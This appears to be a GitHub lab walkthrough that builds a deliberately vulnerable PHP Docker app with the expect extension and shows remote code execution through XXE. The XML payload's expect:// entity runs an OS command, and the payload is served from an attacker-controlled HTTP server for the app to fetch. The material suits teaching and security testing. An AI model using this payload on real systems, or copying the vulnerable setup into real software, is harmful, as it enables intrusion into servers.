






# Remote Code Execution (RCE) via XXE

1. Create [index.php](artifact/rce/src/index.php)
2. Create [upload.php](artifact/rce/src/upload.php)
3. Create [vhost.conf](artifact/rce/src/vhost.conf)
4. Create [php.ini](artifact/rce/php.ini)
5. Create [phpinfo.php](artifact/rce/src/phpinfo.php)
6. Create a [Dockerfile](artifact/rce/Dockerfile) with following contents

    ```bash
    FROM php:7.4.3-apache

    COPY php.ini /usr/local/etc/php/conf.d/docker-php-expect.ini

    RUN apt-get update \
            && apt-get install -y tcl-dev tcl-expect-dev \
            && mkdir -p /tmp/pear/cache \
            && pecl install expect \
            && service apache2 restart

    COPY ./src/index.php app/index.php
    COPY ./src/upload.php app/upload.php
    COPY ./src/vhost.conf /etc/apache2/sites-available/000-default.conf

    RUN mkdir -p app/uploads
    RUN chown -R www-data:www-data app && a2enmod rewrite
    ```

7. Build the Docker image

        docker build --network host -t rce-via-xxe .

    

8. Start a container

        docker run --rm -it -p 1234:80 rce-via-xxe .

9.  Inspect the running container and identify IP address associated with the container

        docker ps -a
        docker inspect <CONTAINER_ID> | grep \"IPAddress\":

    

10. Navigate to `http://CONTAINER_IP_ADDRESS/index.php`, e.g., http://172.17.0.2/index.php

    

11. Create [expect.xml](artifact/rce/payload/expect.xml) containing following attack payload

    ```xml
    <!DOCTYPE rce [
    <!ENTITY xxe SYSTEM "expect://uname$IFS-a">
    ]>
    <rce>
        <data>&xxe;</data>
    </rce>
    ```

12. Serve the XML  payload (Note: I would be using python3 server for this purpose)

        python3 -m http.server 4444

    

13. Fetch the host IP address by running `ip addr | grep inet` command on host machine

14. Enter the URL to XML payload, in the input box

        http://<HOST_IP_ADDRESS>:4444/expect.xml

    

15. Click on **READ** button to execute OS command on the remote server and fetch its output

    

